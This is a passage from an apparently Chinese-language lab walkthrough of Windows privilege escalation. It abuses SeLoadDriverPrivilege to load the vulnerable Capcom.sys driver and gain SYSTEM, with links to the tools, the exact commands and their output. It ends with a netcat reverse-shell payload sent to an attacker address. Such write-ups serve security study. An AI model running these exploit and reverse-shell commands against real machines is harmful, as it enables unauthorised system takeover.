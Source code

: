 PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```



用于编译的源代码[在此](https://github.com/TarlogicSecurity/EoPLoadDriver/)



但是也可以选择release版本,下载下面两个文件，上传到靶机
[ExploitCapcom.exe](https://github.com/clubby789/ExploitCapcom/releases/download/1.0/ExploitCapcom.exe)
[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

执行
> .\ExploitCapcom.exe LOAD C:\Users\svc-print\Documents\Capcom.sys
> .\ExploitCapcom.exe EXPLOIT whoami


```
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe LOAD C:\Users\svc-print\Documents\Capcom.sys
[*] Service Name: xhqhfuts
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????s
NTSTATUS: 00000000, WinError: 0
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000023513930008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system

```

打印出了提权后的权限

传nc到靶机，使用下面payload

>  .\ExploitCapcom.exe EXPLOIT "C:\Users\svc-print\Documents\nc.exe 10.10.14.5 4444 -e cmd.exe"

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe EXPLOIT "C:\Users\svc-print\Documents\nc.exe 10.10.14.5 4444 -e cmd.exe"
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001D17CB20008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
